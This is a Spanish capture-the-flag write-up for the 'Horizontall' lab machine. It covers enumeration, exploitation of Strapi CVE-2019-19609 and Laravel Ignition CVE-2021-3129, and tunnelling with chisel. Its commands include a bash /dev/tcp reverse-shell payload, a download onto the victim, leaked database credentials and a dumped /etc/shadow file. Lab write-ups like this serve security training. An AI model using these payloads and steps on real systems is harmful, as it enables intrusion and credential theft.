


# Horizontall

`Horizontall` es una máquina Linux de dificultad fácil donde solo se exponen los servicios HTTP y SSH. La enumeración del sitio web revela que está construido utilizando el marco Vue JS. Al revisar el código fuente del archivo Javascript, se descubre un nuevo host virtual. Este host contiene el `Strapi Headless CMS` que es vulnerable a dos CVE que permiten a los atacantes potenciales obtener ejecución de código remoto en el sistema como el usuario `strapi`. Luego, después de enumerar los servicios que escuchan solo en localhost en la máquina remota, se descubre una instancia de Laravel. Para acceder al puerto en el que Laravel está escuchando, se utiliza el túnel SSH. El marco Laravel instalado está desactualizado y se ejecuta en modo de depuración. Se puede explotar otro CVE para obtener ejecución de código remoto a través de Laravel como `root`.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Horizontall**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.105 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 12:25 CET
Initiating SYN Stealth Scan at 12:25
Scanning 10.10.11.105 [65535 ports]
Discovered open port 22/tcp on 10.10.11.105
Discovered open port 80/tcp on 10.10.11.105
Completed SYN Stealth Scan at 12:25, 11.95s elapsed (65535 total ports)
Nmap scan report for 10.10.11.105
Host is up, received user-set (0.047s latency).
Scanned at 2025-02-19 12:25:24 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.06 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65549 (2.623MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.105
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx`.

```bash
❯ nmap -sCV -p22,80 10.10.11.105 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 12:25 CET
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   92.59 ms 10.10.16.1
2   28.04 ms horizontall.htb (10.10.11.105)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.40 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep horizontall
10.10.11.105 horizontall.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://horizontall.htb
http://horizontall.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.105], Script, Title[horizontall], X-UA-Compatible[IE=edge], nginx[1.14.0]
```

Accederemos a [http://horizontall.htb](http://horizontall.htb) y nos encontramos con la siguiente página web. Aparentemente, no obtenemos ningún dato interesante en el contenido principal de la página web.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de posibles subdominios de la página web, pero no logramos obtener resultado alguno.

```bash
❯ wfuzz --hh=194 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.horizontall.htb" http://horizontall.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://horizontall.htb/
Total requests: 220548

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000000173:   200        1 L      43 W       901 Ch      "www" 
```

A través de la herramienta de `feroxbuster`, realizaremos una enumeración de directorios y subdominios de la página web. En el resultado obtenido, se nos muestran solamente archivos de `JavaScript`.

```bash
❯ feroxbuster -u http://horizontall.htb/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://horizontall.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       13w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       13w      194c http://horizontall.htb/js => http://horizontall.htb/js/
301      GET        7l       13w      194c http://horizontall.htb/css => http://horizontall.htb/css/
301      GET        7l       13w      194c http://horizontall.htb/img => http://horizontall.htb/img/
200      GET        1l        5w      720c http://horizontall.htb/css/app.0f40a091.css
200      GET        1l       35w     6796c http://horizontall.htb/favicon.ico
200      GET        2l      394w    18900c http://horizontall.htb/js/app.c68eb462.js
200      GET       10l     2803w   218981c http://horizontall.htb/css/chunk-vendors.55204a1e.css
200      GET       55l    86826w  1190830c http://horizontall.htb/js/chunk-vendors.0e02b89e.js
200      GET        1l       43w      901c http://horizontall.htb/
```


Comprobaremos el contenido de estos archivos `JS` que tienen de nombre `app`, quizás podamos obtener algún dato interesante. Nos descargaremos el archivo a través de `cURL`.

```bash
❯ curl -s -X GET 'http://horizontall.htb/js/app.c68eb462.js' -o app.js
❯ ls -l app.js
.rw-rw-r-- kali kali 18 KB Wed Feb 19 12:33:18 2025  app.js
```

Revisaremos el contenido del archivo de `JS` mediante `js-beautify`para verlo en un formato cómodo de `JS`.

En el contenido del archivo, se hace mención sobre un nuevo subdominio de la página web llamado `api-prod.horizontall.htb`.

```javascript
❯ js-beautify app.js

...[snip]...
    components: {
        Navbar: v,
        Home: w
    },
    data: function() {
        return {
            reviews: []
        }
    },
    methods: {
        getReviews: function() {
            var t = this;
            r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
                return t.reviews = s.data
            }))
        }
    }
},
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep horizontall
10.10.11.105 horizontall.htb api-prod.horizontall.htb
```

Accederemos a[ http://api-prod.horizontall.htb](http://api-prod.horizontall.htb) y comprobaremos el siguiente contenido.

<figure><figcaption></figcaption></figure>

Enumeraremos posibles directorios y páginas webs de esta nuevo subdominio. En el resultado obtenido, comprobamos diferentes páginas y directorios, entre las cuales nos llama la atención las de `admin` y `users`.

```bash
❯ feroxbuster -u http://api-prod.horizontall.htb/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://api-prod.horizontall.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        3w       60c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       19l       33w      413c http://api-prod.horizontall.htb/
200      GET       16l      101w      854c http://api-prod.horizontall.htb/Admin
200      GET      223l     1051w     9230c http://api-prod.horizontall.htb/admin/runtime~main.d078dc17.js
403      GET        1l        1w       60c http://api-prod.horizontall.htb/users
200      GET       16l      101w      854c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       16l      101w      854c http://api-prod.horizontall.htb/ADMIN
200      GET        1l       21w      507c http://api-prod.horizontall.htb/reviews
200      GET        1l        1w       90c http://api-prod.horizontall.htb/admin/layout
403      GET        1l        1w       60c http://api-prod.horizontall.htb/admin/plugins
403      GET        1l        1w       60c http://api-prod.horizontall.htb/Users
200      GET        0l        0w  7001634c http://api-prod.horizontall.htb/admin/main.da91597e.chunk.js
200      GET       16l      101w      854c http://api-prod.horizontall.htb/admin
200      GET        1l        1w      144c http://api-prod.horizontall.htb/admin/init
200      GET        1l        1w       90c http://api-prod.horizontall.htb/admin/Layout
```

Accederemos a http://api-prod.horizontall.htb/admin y comprobaremos el siguiente contenido. Se trata de un CMS llamado `Strapi`.


Strapi es un CMS de código abierto, moderno y flexible que proporciona una solución escalable y personalizable para la gestión de contenido. Está diseñado específicamente para desarrolladores y se basa en tecnologías como Node. js, React y GraphQL.


<figure><figcaption></figcaption></figure>

Probamos de autenticarnos con las posibles credenciales por defecto de `Strapi`, pero desafortunadamente no logramos obtener acceso.

<figure><figcaption></figcaption></figure>

## Initial Access

### Strapi CMS 3.0.0-beta.17.4 Exploitation - Remote Code Execution \[RCE] (CVE-202¡19-19609)

Herramientas como `Wappalyzer` o `whatweb` no nos acababan mostrando la versión del `Strapi`. Por lo tanto, decidimos intentar comprobar la versión del `Strapi` a través del código fuente de la propia página web.

En el código fuente de la página web, nos encontramos en diferentes secciones que mencionan `Strapi 3.0.0-beta.17.4`.

```bash
❯ curl -s -X GET 'http://api-prod.horizontall.htb/admin/main.da91597e.chunk.js' | grep strapi-plugin | head -n5
module.exports = JSON.parse("{\"_from\":\"strapi-plugin-content-type-builder@3.0.0-beta.17.4\"
```

Realizamos una búsqueda a través de `searchsploit` para verificar la posible existencia de vulnerabilidades conocidas para esta posible versión del CMS.

Verificamos que se nos muestra una vulnerabilidad de `Remote Code Execution (RCE) (Unauthenticated)` para nuestra versión del CMS que dispone la aplicación web. Esta vulnerabilidad está reportada como `CVE-2019-19609`.

```bash
❯ searchsploit Strapi
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                                                                                                  | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                                                                                                | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                          | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                                                                                            | nodejs/webapps/50716.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```




El framework Strapi versiones anteriores a 3.0.0-beta.17.8, es vulnerable a una Ejecución de Código Remota en los componentes del Plugin de Instalación y Desinstalación del panel de Administración, ya que no sanea el nombre del plugin y los atacantes pueden inyectar comandos de shell arbitrarios para ser ejecutados mediante la función exec.


Realizando una búsqueda por Internet, nos encontramos con el siguiente repositorio de GitHub que nos ofrece la explotación de la vulnerabilidad.



```bash
❯ git clone https://github.com/glowbase/CVE-2019-19609; cd CVE-2019-19609
Clonando en 'CVE-2019-19609'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 18 (delta 4), reused 13 (delta 3), pack-reused 0 (from 0)
Recibiendo objetos: 100% (18/18), 5.13 KiB | 5.13 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

Nos pondremos en escucha con `nc` para poder obtener la conexión de la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

A través del exploit que nos hemos descargado, realizaremos la explotación de la vulnerabilidad sobre la página de `Strapi` vulnerable, para que se nos proporcione una Reverse Shell hacía nuestro equipo.

```bash
❯ python3 exploit.py http://api-prod.horizontall.htb 10.10.16.3 443
========================================================
|    STRAPI REMOTE CODE EXECUTION (CVE-2019-19609)     |
========================================================
[+] Checking Strapi CMS version
[+] Looks like this exploit should work!
[+] Executing exploit
```

Verificamos que finalmente logramos realizar la explotación y nos encontramos en el equipo víctima con el usuario `strapi`. También podemos verificar la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.105] 60270
/bin/sh: 0: can't access tty; job control turned off
$ whoami
strapi
$ ls -l /home 
total 4
drwxr-xr-x 8 developer developer 4096 Aug  2  2021 developer
$ cat /home/developer/user.txt
37f728736e***********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
strapi@horizontall:~/myapi$ export TERM=xterm
strapi@horizontall:~/myapi$ export SHELL=bash
strapi@horizontall:~/myapi$ stty rows 46 columns 230
```

## Privilege Escalation

### Information Leakage

Realizando una enumeración del directorio donde nos encontramos, verificamos de la existencia de un archivo `database.json`el cual contiene las credenciales de acceso a la base de datos `strapi` de `MySQL`.

```bash
strapi@horizontall:~/myapi/config/environments/development$ cat database.json 
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

Nos conectaremos a través de las credenciales obtenidas, verificaremos las tablas presentes de la base de datos `strapi`. Entre las tablas enumeradas, nos encontramos una tabla llamada `strapi_administrator`.

```bash
strapi@horizontall:~/myapi/config/environments/development$ mysql -h localhost -e "show tables;" -u developer -p strapi
Enter password: 
+------------------------------+
| Tables_in_strapi             |
+------------------------------+
| core_store                   |
| reviews                      |
| strapi_administrator         |
| upload_file                  |
| upload_file_morph            |
| users-permissions_permission |
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
```

Comprobaremos los datos de la table mencionada y nos encontramos con el hash del usuario `admin`. Intentamos crackear este hash obtenido, pero no logramos crackearlo.

```bash
strapi@horizontall:~/myapi/config/environments/development$ mysql -h localhost -e "SELECT * FROM strapi_administrator;" -u developer -p strapi
Enter password: 
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$E6rb7Yal9gAo/rMmf2dOiOmgFOfelmn9s4eI55vhfQ3LPsjrrpi2i | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
```

### Discover Internal Web Server (Chisel Port Forwarding)

Revisaremos los puertos internos de la máquina, en el resultado obtenido nos encontramos diferentes puertos abiertos.

```bash
strapi@horizontall:~/myapi$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

Realizamos una comprobación sobre los diferentes puertos encontrados. A través de `cURL` al realizar una comprobación del puerto `8000`, se nos muestra que es una página web con el título de `Laravel`.

```bash
strapi@horizontall:~/myapi$ curl 127.0.0.1:8000
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>Laravel</title>
```

Para comprobar la página web desde nuestro equipo, lo que realizaremos es un **Port Forwarding** para poder comprobar el puerto interno desde nuestro equipo local. Este práctica lo realizaremos a través de [`chisel`](https://github.com/jpillora/chisel) el cual compartiremos a través de un servidor web.

```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Sun Feb 16 03:43:15 2025  chisel

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario de `chisel` y le daremos los permisos de ejecución correspondientes.

```bash
strapi@horizontall:/tmp$ wget 10.10.16.3/chisel; chmod +x chisel
--2025-02-19 04:52:38--  http://10.10.16.3/chisel
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel            100%[==========================>]   8.94M  8.63MB/s    in 1.0s    

2025-02-19 04:52:39 (8.63 MB/s) - ‘chisel’ saved [9371800/9371800]
```

Desde nuestro equipo, configuraremos `chisel` como servidor.

```bash
❯ ./chisel server --reverse -p 1234
2025/02/19 12:59:49 server: Reverse tunnelling enabled
2025/02/19 12:59:49 server: Fingerprint qrzwT378tyR4YNA2Jfg6h7jmt/4JDam5pCJFQ/67+og=
2025/02/19 12:59:49 server: Listening on http://0.0.0.0:1234
```

Por otro lado, desde el equipo víctima, deberemos de configurar el `chisel`para que actúe como cliente de nuestro servidor y realice el **Port Forwarding** del puerto interno `8000` para que sea el puerto `8000` de nuestro equipo local.

```bash
strapi@horizontall:/tmp$ ./chisel client 10.10.16.3:1234 R:8000:127.0.0.1:8000
2025/02/19 04:56:49 client: Connecting to ws://10.10.16.3:1234
2025/02/19 04:56:50 client: Connected (Latency 31.034143ms)
```

Desde nuestro navegador accederemos a http://localhost.8000 y comprobaremos que efectivamente se trataba de la interfaz de `Laravel`.


Laravel es un framework de PHP y es utilizado para desarrollar aplicaciones web. PHP es el lenguaje de programación más utilizado en mundo para desarrollar sitios web, aplicaciones web y los populares CMS, como WordPress o Joomla.


<figure><figcaption></figcaption></figure>

Realizaremos una comprobación de los posibles directorios que se puedan encontrar en la página web. En el resultado obtenido, comprobamos la existencia de `/profiles` pero nos devuelve un código de estado `500`.

```bash
❯ gobuster dir -u http://localhost:8000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/profiles             (Status: 500) [Size: 616202]
```

Si accedemos a [http://localhost:8000/profiles ](http://localhost:8000/profiles)se nos muestra el siguiente mensaje de error, al parecer la aplicación no funciona correctamente en este punto. Exploraremos otras vías.

<figure><figcaption></figcaption></figure>

### Laravel 8.4.2 debug mode - Remote Code Execution \[RCE] (CVE-2021-3129)

En la página inicial de http://localhost:8000, nos encontrábamos la versión de `Laravel` la cual al parecer la aplicación web utilizaba `Laravel 8`.

Por lo tanto, decidimos buscar si existía alguna vulnerabilidad conocida para esta versión en concreto. Nos encontramos con el siguiente resultado, en el cual al parecer en la versión 8.4.2debug modepodíamos intentar obtener un RCE.

Desconocemos la versión exacta de `Laravel` pero vale la pena intentar comprobar si es vulnerable a esta vulnerabilidad reportada como `CVE-2021-3129`.

<figure><figcaption></figcaption></figure>






Ignition versiones anteriores a 2.5.2, como es usado en Laravel y otros productos, permite a atacantes remotos no autenticados ejecutar código arbitrario debido a un uso no seguro de las funciones file\_get\_contents() y file\_put\_contents(). Esto es explotable en sitios que usan el modo de depuración con Laravel versiones anteriores a 8.4.2



Nos encontramos el repositorio de GitHub de `Ambionics` en el cual nos muestran el PoC de cómo aprovecharnos de esta vulnerabilidad y de qué consise.



```bash
❯ git clone https://github.com/ambionics/laravel-exploits; cd laravel-exploits
Clonando en 'laravel-exploits'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 3 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (9/9), listo.
```

Realizaremos la explotación, crearemos un payload malicioso llamado `exploit.phar` que ejecute el comando `id`.

Al realizar la explotación de la vulnerabilidad sobre el `Laravel` vulnerable, nos encontramos que hemos podido ejecutar comandos arbitrarios y el usuario que ejecuta estos comandos es el usuario `root`.

Con lo cual, tenemos una gran vía potencial de ejecutar comandos como `sudo` y poder obtener acceso como `root` en el equipo.


Deberemos de disponer instalado  [phpgcc](https://github.com/ambionics/phpggc). PHPGGC es una biblioteca de cargas útiles PHP unserialize() junto con una herramienta para generarlas, desde la línea de comandos o mediante programación.


```bash
❯ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id

❯ python3 laravel-ignition-rce.py http://localhost:8000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Nos pondremos en escucha con `nc`para recibir la conexión remota.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Crearemos un nuevo archivo `exploit.phar` que ejecute como comando una Reverse Shell. Ejecutaremos el exploit sobre el `Laravel` vulnerable.

```bash
❯ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'"
❯ python3 laravel-ignition-rce.py http://localhost:8000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```

Verificamos que finalmente logramos obtener acceso al sistema como usuario `root`y podemos visualziar la flag **root.txt**

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.105] 49394
bash: cannot set terminal process group (4676): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# cat /root/root.txt
cat /root/root.txt
2bdca812*************************
```

Por otro lado, también nos encontramos con un repositorio de GitHub que automatiza todo este procedimiento.



```bash
❯ wget https://raw.githubusercontent.com/knqyf263/CVE-2021-3129/refs/heads/main/attacker/exploit.py
--2025-02-19 13:35:00--  https://raw.githubusercontent.com/knqyf263/CVE-2021-3129/refs/heads/main/attacker/exploit.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3976 (3,9K) [text/plain]
Grabando a: «exploit.py»

exploit.py                                                100%[===================================================================================================================================>]   3,88K  --.-KB/s    en 0s      

2025-02-19 13:35:00 (48,0 MB/s) - «exploit.py» guardado [3976/3976]
```

Lo único que deberemos de editar en el archivo `exploit.py` es el contenido de la URL vulnerable y el comando que queremos ejecutar en el sistema.

Lanzamos el exploit y lo primero que realiza es comprobar si tenemos `phpgcc` instalado en el directorio actual, en caso de que no lo tuviéramos haría la descarga automáticamente. Una vez comprobado, nos ejecutará el comando realizado, en este caso la explotación ha sido exitosa y se muestra le ejecución del comando `cat /etc/shadow`, como el usuario que ejecuta estos comandos es `root`, podemos visualizar de este archivo privilegiado.

```python
def main():
    Exploit("http://localhost:8000", "cat /etc/shadow")
```

```bash
❯ python3 exploit.py
[*] Try to use monolog_rce1 for exploitation.
[+] PHPGGC found. Generating payload and deploy it to the target
[*] Result:
root:$6$rGxQBZV9$SbzCXDzp1MEx7xxXYuV5voXCy4k9OdyCDbyJcWuETBujfMrpfVtTXjbx82bTNlPK6Ayg8SqKMYgVlYukVOKJz1:18836:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18772:0:99999:7:::
